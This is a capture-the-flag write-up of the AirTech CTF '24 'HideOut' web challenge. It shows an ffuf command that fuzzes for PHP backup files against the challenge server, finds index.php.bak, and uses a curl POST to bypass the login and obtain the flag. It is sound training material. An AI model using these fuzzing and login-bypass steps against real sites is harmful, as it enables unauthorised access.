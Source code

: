 ```yaml
---
title: AirTech CTF '24 Final - Web - HideOut
date: '2024-03-02'
tags: ['AIRTECH24', 'WEB','PHP', 'HideOut','LOGINBYPASS']
draft: false
---
```


### Description:
> “Evil-Corp launched their public website for users to access their data. Unfortunately, BANDITS hackers breached the admin account and stole sensitive information.”

![challenge discription](/static/writeups/airtech/HideOut/chall_discription.png)

Starting with a simple analysis, we saw a static web page with a single input field designed for entering a secret password.

![index page](/static/writeups/airtech/HideOut/secretpass.png)

Analyzing the source code, console, and other elements on the client side, we found nothing. After digging for some time, I discovered that we could fuzz this site. Initially, we obtained no results, but after fuzzing for common PHP pages, we found a backup file named `index.php.bak`
### Command:
```bash
ffuf -u http://170.187.248.180:3001/FUZZ -w /usr/share/secLists/Discovery/Web-Content/Common-PHP-Filenames.txt
```
![fuzzing with ffuf](/static/writeups/airtech/HideOut/bak-file.png)

By requesting to that file
### URL:
```bash
http://170.187.248.180:3001/index.php.bak
```
### Source Code: 

![php source code](/static/writeups/airtech/HideOut/source-code.png)


```bash
curl http://170.187.248.180:3001/index.php  --data 'secretpasswd=t&fani=t'
```

![flag](/static/writeups/airtech/HideOut/flag.png)


### ***kh4tt4k***

### Peace! 👋👋👋
